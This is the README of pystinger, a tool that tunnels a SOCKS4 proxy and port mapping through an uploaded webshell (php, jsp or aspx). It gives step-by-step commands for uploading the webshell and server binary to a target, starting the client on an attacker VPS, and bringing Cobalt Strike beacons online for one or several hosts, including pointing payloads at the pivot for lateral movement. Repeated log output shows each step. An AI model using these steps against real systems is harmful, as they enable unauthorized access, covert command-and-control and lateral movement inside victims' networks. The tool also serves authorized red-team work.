 # pystinger

English | [简体中文](./.github/docs/readme_cn.md) 

Pystinger implements **SOCK4 proxy** and **port mapping** through webshell.

It can be directly used by metasploit-framework, viper, cobalt strike for session online.

Pystinger is developed in python, and currently supports three proxy scripts: php, jsp(x) and aspx.


# Usage
> Suppose the domain name of the server is[ http://example.com :8080](http://192.168.3.11:8080) The intranet IPAddress of the server intranet is 192.168.3.11

## SOCK4 Proxy


* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```stinger_server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/stinger_server.exe```to start pystinger-server
> Don't run ```D:/xxx/singer_server.exe``` directly,it will cause TCP disconnection
* Run ```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Now you have started a *socks4a proxy* on VPS ```127.0.0.1:60000``` for intranet of ```example.com```.
* Now the target server(```example.com```) ```127.0.0.1:60020``` has been mapped to the VPS ``` 127.0.0.1:60020```

## cobaltstrike`s beacon online for single target

* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```stinger_server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/stinger_server.exe```to start pystinger-server
> Don't run ```D:/xxx/singer_server.exe``` directly,it will cause TCP disconnection
* Run ```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Add listener on cobaltstrike,Listener port is ```60020``` (Handler/LISTEN port in ```RAT CONFIG``` of output ),listener address is ```127.0.0.1```
* Generate payload,upload to the target and run.

## cobaltstrike`s beacon online for multi targets

* ```proxy.jsp``` Upload to the target server and ensure that [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) can access,the page returns ```UTF-8```
* ```stinger_server.exe``` Upload to the target server,AntSword run cmd```start D:/XXX/stinger_server.exe  192.168.3.11```to start pystinger-server (192.168.3.11 is intranet ipaddress of the target)
> 192.168.3.11 can change to 0.0.0.0
* Run ```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000``` on your VPS
* Your will see following output
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* Add listener on cobaltstrike,Listener port is ```60020``` (Handler/LISTEN port in ```RAT CONFIG``` of output ),listener address is ```192.168.3.11```
* Generate payload,upload to the target and run.
* When lateral movement to other hosts, you can point the payload to 192.168.3.11:60020 to make beacon online

## Custom header and proxy
* If the webshell needs to configure cookie or authorization, the request header can be configured through the -- header parameter
```--header "Authorization: XXXXXX,Cookie: XXXXX"```

* If the webshell needs to be accessed by proxy, you can set the proxy through -- proxy
```--proxy "socks5:127.0.0.1:1081"```

# Related tools
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# Tested
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# Update log
**2.0**
Update time: 2019-09-29
* Socks4 proxy service moves to client

**2.1**
Update time: 2020-01-07
* Support cobaltstrike online (port mapping)

The development is supported by the software from jetbrains.</br>
https://www.jetbrains.com/?from=pystinger

<a href="https://www.jetbrains.com/?from=pystinger" target="_blank">
  <img src=".github/images/jetbrains.svg">
</a>
